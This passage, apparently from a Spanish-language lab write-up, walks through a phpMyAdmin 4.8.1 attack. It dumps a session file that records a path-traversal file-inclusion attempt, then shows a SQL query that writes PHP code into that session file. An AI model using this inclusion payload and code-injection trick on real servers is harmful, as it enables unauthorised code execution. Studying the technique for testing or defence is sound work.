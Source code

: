 ```
PMA_token |s:16:"y/)Hw1x2gITZ--tq";browser_access_time|a:1:{s:7:"default";i:1675460312;}relation|a:1:{i:1;a:22:{s:11:"PMA_VERSION";s:5:"4.8.1";s:7:"relwork";b:0;s:11:"displaywork";b:0;s:12:"bookmarkwork";b:0;s:7:"pdfwork";b:0;s:8:"commwork";b:0;s:8:"mimework";b:0;s:11:"historywork";b:0;s:10:"recentwork";b:0;s:12:"favoritework";b:0;s:11:"uiprefswork";b:0;s:12:"trackingwork";b:0;s:14:"userconfigwork";b:0;s:9:"menuswork";b:0;s:7:"navwork";b:0;s:17:"savedsearcheswork";b:0;s:18:"centralcolumnswork";b:0;s:20:"designersettingswork";b:0;s:19:"exporttemplateswork";b:0;s:8:"allworks";b:0;s:4:"user";N;s:2:"db";N;}}cache|a:2:{s:16:"server_1_votebox";a:16:{s:14:"mysql_cur_user";s:9:"votebox@%";s:17:"is_create_db_priv";b:1;s:14:"is_reload_priv";b:0;s:12:"db_to_create";s:8:"votebox_";s:30:"dbs_where_create_table_allowed";a:2:{i:0;s:7:"votebox";i:1;s:10:"votebox\_%";}s:11:"dbs_to_test";a:6:{i:0;s:18:"information_schema";i:1;s:18:"performance_schema";i:2;s:5:"mysql";i:3;s:3:"sys";i:4;s:7:"votebox";i:5;s:10:"votebox\_%";}s:9:"proc_priv";b:0;s:10:"table_priv";b:0;s:8:"col_priv";b:0;s:7:"db_priv";b:0;s:12:"is_superuser";b:0;s:12:"is_grantuser";b:0;s:13:"is_createuser";b:0;s:11:"binary_logs";a:0:{}s:18:"menu-levels-server";a:13:{s:9:"databases";s:9:"Databases";s:3:"sql";s:3:"SQL";s:6:"status";s:6:"Status";s:6:"rights";s:5:"Users";s:6:"export";s:6:"Export";s:6:"import";s:6:"Import";s:8:"settings";s:8:"Settings";s:6:"binlog";s:10:"Binary log";s:11:"replication";s:11:"Replication";s:4:"vars";s:9:"Variables";s:7:"charset";s:8:"Charsets";s:7:"plugins";s:7:"Plugins";s:6:"engine";s:7:"Engines";}s:14:"menu-levels-db";a:14:{s:9:"structure";s:9:"Structure";s:3:"sql";s:3:"SQL";s:6:"search";s:6:"Search";s:17:"multi_table_query";s:5:"Query";s:6:"export";s:6:"Export";s:6:"import";s:6:"Import";s:9:"operation";s:10:"Operations";s:10:"privileges";s:10:"Privileges";s:8:"routines";s:8:"Routines";s:6:"events";s:6:"Events";s:8:"triggers";s:8:"Triggers";s:8:"tracking";s:8:"Tracking";s:8:"designer";s:8:"Designer";s:15:"central_columns";s:15:"Central columns";}}s:8:"server_1";a:3:{s:15:"userprefs_mtime";i:1675459715;s:14:"userprefs_type";s:7:"session";s:12:"config_mtime";i:1527216327;}}encryption_key|s:32:"��U��N�9e�������ǁ @ ��Z'�zC�";userconfig|a:2:{s:2:"db";a:1:{s:12:"Console/Mode";s:8:"collapse";}s:2:"ts";i:1675460312;}two_factor_check|b:1;tmpval|a:4:{s:13:"recent_tables";a:1:{i:1;a:0:{}}s:15:"favorite_tables";a:1:{i:1;a:0:{}}s:18:"table_limit_offset";i:0;s:21:"table_limit_offset_db";s:7:"votebox";}ConfigFile1|a:2:{s:7:"Console";a:1:{s:4:"Mode";s:8:"collapse";}s:7:"Servers";a:1:{i:1;a:2:{s:7:"only_db";s:0:"";s:7:"hide_db";s:0:"";}}}debug|a:0:{}prev_errors|a:2:{s:32:"bb41f23841f9ba0f9103b0754c581d2e";O:16:"PhpMyAdmin\Error":12:{s:7:"*file";s:11:"./index.php";s:7:"*line";i:61;s:12:"*backtrace";a:1:{i:0;a:3:{s:4:"file";s:11:"./index.php";s:4:"line";i:61;s:8:"function";s:7:"include";}}s:16:"*hide_location";b:0;s:9:"*number";i:2;s:9:"*string";s:0:"";s:10:"*message";s:180:"include(db_sql.php%3f../../../../../../../..//var/lib/php/session/sess_/var/lib/php/session/sess_htmu66othqmaf4dvv37hs3taajavmjb5): failed to open stream: No such file or directory";s:14:"*isDisplayed";b:1;s:12:"*useBBCode";b:0;s:7:"*hash";s:32:"bb41f23841f9ba0f9103b0754c581d2e";s:9:"*params";a:0:{}s:16:"*addedMessages";a:0:{}}s:32:"a1caf3838ae18c595102062e210029d2";O:16:"PhpMyAdmin\Error":12:{s:7:"*file";s:11:"./index.php";s:7:"*line";i:61;s:12:"*backtrace";a:1:{i:0;a:3:{s:4:"file";s:11:"./index.php";s:4:"line";i:61;s:8:"function";s:7:"include";}}s:16:"*hide_location";b:0;s:9:"*number";i:2;s:9:"*string";s:0:"";s:10:"*message";s:213:"include(): Failed opening 'db_sql.php%3f../../../../../../../..//var/lib/php/session/sess_/var/lib/php/session/sess_htmu66othqmaf4dvv37hs3taajavmjb5' for inclusion (include_path='.:/usr/share/pear:/usr/share/php')";s:14:"*isDisplayed";b:1;s:12:"*useBBCode";b:0;s:7:"*hash";s:32:"a1caf3838ae18c595102062e210029d2";s:9:"*params";a:0:{}s:16:"*addedMessages";a:0:{}}}errors|a:0:{}
```

Como se puede ver, las operaciones previas que hemos realizado se ven reflejadas en el fichero.

Una cosa que podemos hacer, es, dentro phpMyAdmin, en el formulario donde se pueden realizar queries de SQL a modo de prueba, escribir:

```sql
select '<?php phpinfo();exit;?>'
```

Si ahora miramos el fichero de sesión, vemos que aparece la info de phpmy admin allí!
